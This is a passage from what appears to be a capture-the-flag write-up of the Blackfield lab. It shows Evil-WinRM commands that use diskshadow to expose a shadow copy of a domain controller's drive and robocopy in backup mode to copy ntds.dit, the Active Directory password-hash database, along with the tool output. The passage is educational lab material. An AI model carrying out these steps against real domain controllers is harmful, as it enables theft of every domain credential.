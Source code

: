 Transfer it over via win-rm, and use diskshadow to create a shadow copy.
```
*Evil-WinRM* PS C:\Temp> diskshadow /s black.dsh
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC01,  7/20/2025 9:07:36 PM

-> set context persistent nowriters
-> add volume c: alias blackfield
-> create
Alias blackfield for shadow ID {233bec9a-24ea-4fa1-8898-6f9e68099ddd} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {33bc04d4-5fa1-4204-a596-596c945c2b53} set as environment variable.

Querying all shadow copies with the shadow copy set ID {33bc04d4-5fa1-4204-a596-596c945c2b53}

        * Shadow copy ID = {233bec9a-24ea-4fa1-8898-6f9e68099ddd}               %blackfield%
                - Shadow copy set: {33bc04d4-5fa1-4204-a596-596c945c2b53}       %VSS_SHADOW_SET%
                - Original count of shadow copies = 1
                - Original volume name: \\?\Volume{6cd5140b-0000-0000-0000-602200000000}\ [C:\]
                - Creation time: 7/20/2025 9:07:37 PM
                - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
                - Originating machine: DC01.BLACKFIELD.local
                - Service machine: DC01.BLACKFIELD.local
                - Not exposed
                - Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
                - Attributes:  No_Auto_Release Persistent No_Writers Differential

Number of shadow copies listed: 1
-> expose %blackfield% z:
-> %blackfield% = {233bec9a-24ea-4fa1-8898-6f9e68099ddd}
The shadow copy was successfully exposed as z:\.
->
```
![capture-15](capture-15.PNG)

Once the backup is complete use robocopy to copy the ntds.dit file over.
```
*Evil-WinRM* PS C:\Temp> robocopy /b z:/windows/ntds . ntds.dit

-------------------------------------------------------------------------------
   ROBOCOPY     ::     Robust File Copy for Windows
-------------------------------------------------------------------------------

  Started : Sunday, July 20, 2025 9:16:05 PM
   Source : z:\windows\ntds\
     Dest : C:\Temp\

    Files : ntds.dit

  Options : /DCOPY:DA /COPY:DAT /B /R:1000000 /W:30

------------------------------------------------------------------------------

                           1    z:\windows\ntds\
            New File              18.0 m        ntds.dit
  0.0%
  0.3%
  0.6%
  1.0%
  1.3%
  1.7%
  <SNIP>
```